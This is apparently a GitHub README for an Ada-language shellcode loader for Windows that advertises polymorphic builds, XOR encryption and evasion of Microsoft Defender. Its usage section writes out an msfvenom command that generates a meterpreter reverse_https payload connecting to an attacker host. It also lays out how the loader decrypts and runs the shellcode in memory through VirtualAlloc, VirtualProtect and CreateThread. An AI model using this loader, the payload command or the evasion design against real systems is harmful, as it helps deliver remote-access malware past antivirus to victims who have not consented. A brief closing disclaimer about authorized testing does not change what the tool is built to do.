

# Ada Shellcode Loader

A simple shellcode loader written in Ada for Windows x64.

## Features

- XOR encryption with random key per build
- Polymorphic compilation - every build is unique
- Written in Ada (uncommon language, low detection rates)
- Compiles to native Windows executable
- No external dependencies

## Requirements

- GNAT Ada compiler
- MinGW-w64 for cross-compilation
- Python 3

## Installation

### Automated Installation
```bash
chmod +x install.sh
./install.sh
```

Supports:
- Debian/Ubuntu
- RedHat/CentOS/Fedora
- Arch Linux
- macOS

### Manual Installation

**Debian/Ubuntu:**
```bash
sudo apt update
sudo apt install gnat gnat-mingw-w64 python3
```

**Fedora:**
```bash
sudo dnf install gcc-gnat mingw64-gcc-gnat python3
```

**Arch:**
```bash
sudo pacman -S gcc-ada mingw-w64-gcc python
```

**macOS:**
```bash
brew install gcc mingw-w64
```

## Usage
```bash
# Generate shellcode (raw format, x64)
# Example: msfvenom -p windows/x64/meterpreter/reverse_https LHOST=x.x.x.x LPORT=443 -f raw -o shellcode.bin

# Build
python3 build.py shellcode.bin

# Output: loader.exe
```



This shows defender cant detect the embedded shellcode. 

## Polymorphic Builds

Every compilation generates a completely unique binary:
- Randomized function and variable names (30+ identifiers)
- Random XOR encryption key
- Random timing delays
- Unique binary hash every time


## How It Works

1. `build.py` generates unique polymorphic code structure
2. Encrypts shellcode with a random XOR key
3. Compiles to Windows executable with randomized identifiers
4. At runtime, loader decrypts and executes shellcode in memory

## Technical Details

- **Encryption**: XOR with position-dependent key
- **Memory**: VirtualAlloc (RW) → VirtualProtect (RX)
- **Execution**: CreateThread
- **Language**: Ada 2012
- **Polymorphism**: 30+ randomized identifiers per build

## Notes

This is for authorized security testing only. Ensure you have proper authorization before use.
